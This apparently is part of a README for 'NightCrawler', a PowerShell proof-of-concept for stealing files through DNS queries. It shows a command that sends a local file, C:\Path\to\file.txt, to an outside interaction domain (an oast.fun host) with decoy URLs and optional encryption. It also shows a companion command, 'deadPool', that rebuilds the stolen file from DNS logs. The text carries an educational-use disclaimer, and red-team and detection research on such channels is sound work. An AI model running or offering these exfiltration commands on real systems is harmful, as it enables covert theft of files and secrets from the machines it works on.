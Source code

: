 ```powershell
Invoke-NightCrawler -Identifier "testid" -Domain "cv8erb8gdmbc73c0ns00o1dra4c8ibd4r.oast.fun" -Urls "adobe.com","github.com" -FilePath "C:\Path\to\file.txt" -EncryptionEnabled -EncryptionKey "YourSecretKey"
```

You also have the option of using our GUI, which now supports comma-separated URLs. Just run the following command after loading in **Invoke-NightCrawler**

```powershell
Invoke-NightCrawlerGui
```

## Data Reconstruction with deadPool.ps1:

Run this script on your own computer where the DNS logs are stored.
It extracts the hex-encoded chunks (with sequence numbers), sorts them, decodes them, and reconstructs the original file.
Example command:

```powershell
Invoke-DeadPool -LogFile "C:\Path\to\logs.txt" -Identifier "testid" -EncryptionEnabled -EncryptionKey "YourSecretKey" -OutputFile "C:\Path\to\ReconstructedFile.txt"
```

## Notes:

Replace placeholders such as your-domain.oast.me and URL values with actual values from your environment.
The scripts are provided as a proof-of-concept (PoC) and should be used responsibly.

## Disclaimer

This project is for educational purposes only. Use it responsibly and ensure you comply with all applicable laws and regulations.
